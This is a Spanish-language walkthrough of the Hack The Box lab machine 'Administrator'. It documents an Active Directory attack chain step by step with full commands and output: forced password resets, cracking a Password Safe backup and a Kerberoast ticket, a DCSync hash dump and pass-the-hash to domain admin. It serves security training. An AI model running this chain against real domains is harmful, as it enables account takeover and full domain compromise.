







---

## Ficha técnica


- **Nombre de la máquina:** Administrator
- **Dificultad:** Media
- **Plataforma:** Hack The Box 
- **Autor:** nirza

> **Resumen:** Administrator es una máquina de dificultad media orientada a la explotación en Active Directory mediante una extensa cadena de movimientos laterales. Para completarla con éxito, resulta indispensable el uso de BloodHound con el fin de auditar privilegios en el dominio e identificar la incorrecta asignación de permisos como `GenericAll`, `ForceChangePassword` y `GenericWrite`. Asimismo, requiere la extracción y descifrado de una base de datos cifrada mediante contraseña para la lectura de respaldos de _Password Safe_ (`.psafe3`), culminando en una escalada de privilegios a nivel de dominio mediante un ataque de tipo DCSync.

---

## Fase 1: Reconocimiento

### 1.1. Comprobación de conectividad

Se verificó la conectividad con el objetivo mediante el envío de cuatro paquetes ICMP.

```bash
ping -c 4 10.129.46.76
PING 10.129.46.76 (10.129.46.76) 56(84) bytes of data.
64 bytes from 10.129.46.76: icmp_seq=1 ttl=127 time=113 ms
64 bytes from 10.129.46.76: icmp_seq=2 ttl=127 time=115 ms
64 bytes from 10.129.46.76: icmp_seq=3 ttl=127 time=116 ms
64 bytes from 10.129.46.76: icmp_seq=4 ttl=127 time=114 ms

--- 10.129.46.76 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 113.071/114.443/115.881/1.149 ms
```

> **Conclusión:** La conexión es estable (0 % de pérdida de paquetes). Mientras que el valor recibido de TTL=127 cercano al valor nativo de 128 sugiere que el sistema operativo objetivo es Windows.

---

### 1.2. Escaneo de puertos

Se ejecutó un escaneo sobre la totalidad del rango de puertos TCP mediante Nmap, filtrando únicamente los puertos en estado abierto.

**Comando ejecutado:**

```bash
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.46.76
```

**Resultados:**

```bash
Nmap scan report for 10.129.46.76
Host is up (0.20s latency).
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
**************************<Recortado>**************************
```

> **Conclusión:** Se identificó un total de 26 puertos abiertos. La presencia simultánea de servicios clave como DNS (53), Kerberos (88), LDAP (389) y SMB (445) confirma que el sistema es un Controlador de Dominio (Domain Controller) dentro de un entorno Active Directory sobre Windows.

---

## Fase 2: Enumeración

### 2.1. Enumeración general de servicios expuestos

A partir de los puertos detectados en la fase previa, se ejecutó un escaneo orientado a identificar las versiones específicas de los servicios en ejecución y complementar con los scripts por defecto de Nmap (NSE).

**Comando ejecutado:**

```bash
nmap -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49668,53613,53618,53625,53638,53671,60070 -sCV -Pn -n 10.129.46.76 -oA open_enum_ports
```

**Resultados:**

```bash
Nmap scan report for 10.129.46.76
Host is up (0.17s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-15 06:26:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
**************************<Recortado>**************************
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-08-15T06:27:28
|_  start_date: N/A
|_clock-skew: 6h59m54s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.24 seconds
```

**Hallazgos principales:**

- **Dominio identificado:** `administrator.htb`
- **Nombre de host:** DC (reconfirma la función de Controlador de Dominio).
- **Seguridad en SMB:** Requisito de firma de mensajes activo (`Message signing enabled and required`), lo que descarta vulnerabilidades de SMB Relay.
- **Desfasaje de reloj:** Se registra una diferencia horaria de aproximadamente 7 horas respecto al sistema local. 

---

### 2.2. Ajustes en la máquina local (Atacante)

Con la información obtenida, realizamos los siguientes ajustes en el sistema del atacante para continuar con la auditoría de forma adecuada:

1.  **Actualización del archivo `/etc/hosts`:** Al confirmar que se trata de un Domain Controller (DC), se registraron los siguientes dominios para facilitar los ataques posteriores:

```plaintext
administrator.htb
dc.administrator.htb
```

2. **Sincronización horaria:** Desactivar el ajuste automático de la hora en la máquina atacante para evitar discrepancias y se sincronizo el reloj directamente con el sistema objetivo:

```bash
sudo timedatectl set-ntp false
sudo ntpdate 10.129.46.76
```

---

## Fase 3: Explotación

### 3.1. Acceso inicial

Durante esta fase, utilizamos las credenciales proporcionadas del usuario (`olivia:ichliebedich`) para verificar su validez en los servicios SMB y WinRM mediante los siguientes comandos:

```bash
nxc smb 10.129.46.76 -u 'olivia' -p 'ichliebedich'
nxc winrm 10.129.46.76 -u 'olivia' -p 'ichliebedich'
```

> **Resultados:** La validación confirmó que las credenciales son correctas. Además, se identificó que el usuario pertenece al grupo **RemoteManagementUsers**, lo que le otorga permisos para iniciar una sesión interactiva a través del protocolo WinRM.



Tras confirmar la posibilidad de conexión, utilicé **evil-winrm** para obtener acceso al sistema objetivo con las credenciales validadas:

```bash
evil-winrm -i 10.129.46.76 -u 'olivia' -p 'ichliebedich'
```

> **Resultados:** La autenticación se completó con éxito, logrando una sesión interactiva en el sistema con los privilegios del usuario **olivia**.



---

## Fase 4: Post-Explotación

### 4.1. Mapeo de Active Directory mediante BloodHound

Al no encontrar vías directas de escalada de privilegios o movimiento lateral a nivel local, se utilizó **BloodHound** para realizar un mapeo completo de los permisos y la estructura del Active Directory.

- **Extracción de información:** Recopilé los datos necesarios en formato JSON mediante la herramienta `bloodhound-python`:

```bash
bloodhound-python -u 'olivia' -p 'ichliebedich' -d administrator.htb -ns 10.129.46.76 -c All
```

- **Importación de resultados:** Cargue los archivos generados en la interfaz web de BloodHound para su análisis.



> **Análisis y hallazgos:** Al revisar los permisos del usuario actual en la sección de control de objetos salientes (_Outbound Object Control_), se identifica que `olivia` cuenta con privilegios `GenericAll` sobre el usuario `Michael`, lo que se traduce en una vía directa para movimiento lateral mediante el cambio de contraseña o captura de hash.

---

### 4.2. Movimiento lateral (Acceso como el usuario Michael)

Tras identificar el vector anterior, se intentó un ataque de Kerberos dirigido. Sin embargo al no poder descifrar el hash obtenido, se optó por cambiar la contraseña directamente, resultando ser la opción más viable para esta fase.

Para llevarlo a cabo, se utilizó la herramienta `net` de Samba:

```bash
net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.129.46.76"
```

A continuación, se validaron las nuevas credenciales mediante NetExec.

```bash
evil-winrm -i 10.129.46.76 -u 'michael' -p 'newP@ssword2022'
```



> **Resultado:** Se obtuvo acceso al sistema, en esta ocasión con los privilegios del usuario Michael.

---

### 4.3. Exfiltración de archivos y descifrado con John

Una vez se ganó acceso con la cuenta del usuario `michael` se realizó una nueva enumeración en Active Directory con BloodHound, esta vez se identificó el privilegio `ForceChangePassword` sobre el usuario Benjamin en la sección de _Outbound Object Control_.

Este vector se explotó de la misma forma que el anterior, forzando un cambio de contraseña mediante la herramienta `net` de Samba:

```bash
net rpc password "benjamin" "newP@ssword2023" -U "administrator.htb"/"michael"%"newP@ssword2022" -S "10.129.46.76"
```

A diferencia de los casos anteriores, este usuario no forma parte del grupo _Remote Management Users_, pero sí pertenece al grupo _Share Moderators_. Por este motivo, se priorizó la enumeración de protocolos de compartición de archivos, como FTP:

```bash
ftp 10.129.46.76
```

Durante la enumeración del servicio FTP, se localizó el archivo crítico `Backup.psafe3`, correspondiente a una base de datos cifrada de _Password Safe_.

### Descifrado de archivos `.psafe3` con John

Una vez identificado el tipo de archivo, se utilizó la utilidad `pwsafe2john` para extraer el hash y proceder a su descifrado:

```bash
pwsafe2john Backup.psafe3
```

**Hash obtenido:**

```plaintext
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050
```

Tras almacenar el hash en un archivo de texto, se ejecutó John the Ripper empleando el diccionario `rockyou.txt`:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

> **Resultado:** Se obtuvo en texto claro la contraseña `tekieromucho`, permitiendo desencriptar la información del respaldo para acceder a su contenido.

---

### 4.4. Movimiento lateral (Acceso como el usuario Emily)

Utilizando la utilidad `pwsafe`, se abrió la base de datos recién descifrada empleando la contraseña recuperada (`tekieromucho`). 


En su interior se encontraron las credenciales de los siguientes usuarios:

- **Alexander:** `UrkIbagoxMyUGw0aPlj9B0AXSea4Sw`
- **Emily:** `UXLCI5iETUsIBoFVTj8yQFKoHjXmb`
- **Emma:** `WwANQWnmJnGV07WQN8bMS7FMAbjNur`

Teniendo en cuenta que el usuario Emily cuenta con el permiso `GenericWrite` sobre el usuario Ethan, se decidió aprovechar este vector para realizar un nuevo movimiento lateral mediante `evil-winrm`:

```bash
evil-winrm -i 10.129.46.76 -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```



> **Resultado:** Se obtuvo acceso exitoso al sistema con los privilegios del usuario Emily.

---

### 4.5. Movimiento lateral (Usuario Ethan)

Debido a que el privilegio `GenericWrite` permite realizar un ataque de Kerberoasting dirigido, se ejecutó dicha técnica utilizando las credenciales del usuario **Emily** mediante el script `targetedKerberoast.py`:

```bash
targetedKerberoast.py -v -d administrator.htb -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' --dc-ip 10.129.46.76
```

**Ticket de kerberos obtenido:**

```plaintext
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$e2b989188353ff5bde48b36760810c1f$d344ef0f90d61c368e5609797d2b11bdc217768db1e9f86cb9fd98eca6fb91c3ed08824f911ce134d9816e2d2ff3d86956d1a3c58430bae6634bf2a440df99101e6457f09d74c6894612f862e9e7719444c162097b3476b11a1ff0d38c54fd505f3d838df41405b20afceae6555da161026bf9de4f6aa05611a7456fb576dfc2d456cd4c3f6f70d4cd961a388e85ff2f0c124623dfb1f35e89ffeeb269a3f74b35eb8e14efabc53688b2b599ab7c33517f92be9f006394b819035698f5cc88763e3c9adad2e3d367b3ffb556f02f03b8ee018379b0bcf0170a467c99314f7356ffd47a442008c2e9f2c3ad80e5f144d71653a10ab970db29b594adbe22b58a7f76be43592546f6e200a69b3b9d9abf6f6ab89d6b5be614f05037d8f30c97033498574110ca6059ade8dbdb0566c320924
**************************<Recortado>**************************
0564934360b8a2823ce97a3796f75341d086e5db64a386ce32f3ce791f872e960c59ae01ea39b235236360934fcc31e0708159306464acd467dd977ec184a9f8a1a8b349b4e195be5c733e32adf4430da559ccb01e34e736c628b65c61bcc372a74cd4a1680c5cc1e96698b491982f1a26b2330500eedd141c72f1efd503a03e3b94f79f55db85f87527ee6120b80a3239221c983a5070bdb3554b30671a781bbe2670c35ab472a9fe1f42f2eeb7e
```

Tras almacenar el ticket, se procedió a su descifrado utilizando John the Ripper junto con el diccionario `rockyou.txt`:

```bash
john kerberos.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

> **Resultado:** Se obtuvo la contraseña del usuario Ethan en texto claro: `limpbizkit`.

---

### 4.6. Escalada de privilegios mediante DCSync

Al revisar nuevamente **BloodHound**, se identificó que el usuario `ethan` posee el permiso `GetChanges`. Este privilegio permite ejecutar un ataque de DCSync para extraer los hashes NTLM de todas las cuentas registradas.



Para llevarlo a cabo, se utilizó la herramienta `secretsdump` de la suite Impacket:

```bash
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.129.46.76
```

**Resultado:**

```plaintext
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:fb54d1c05e301e024800c6ad99fe9b45:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:9245632c3e660c0193dc9da327af0d5b:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
```

Una vez obtenido el hash del administrador principal, se realizó un ataque de tipo _Pass-The-Hash_ para consolidar el control total sobre el controlador de dominio:

```bash
impacket-psexec -hashes 'aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e' administrator/Administrator@10.129.46.76
```

> **Conclusión:** Tras obtener acceso exitoso con los máximos privilegios del sistema, se procedió a recuperar las flags correspondientes para finalizar el CTF.



---